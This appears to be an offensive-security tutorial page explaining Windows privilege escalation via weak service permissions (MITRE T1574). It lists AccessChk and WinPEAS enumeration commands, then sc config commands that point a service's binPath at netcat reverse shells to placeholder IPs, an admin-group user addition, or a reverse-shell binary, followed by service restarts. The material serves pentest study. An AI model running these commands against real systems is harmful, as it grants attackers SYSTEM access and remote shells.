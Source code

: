 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak Service Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have permissions over the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command.

{% tabs %}
{% tab title="Enumerate" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We can edit the binpath parameter with following commands

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}

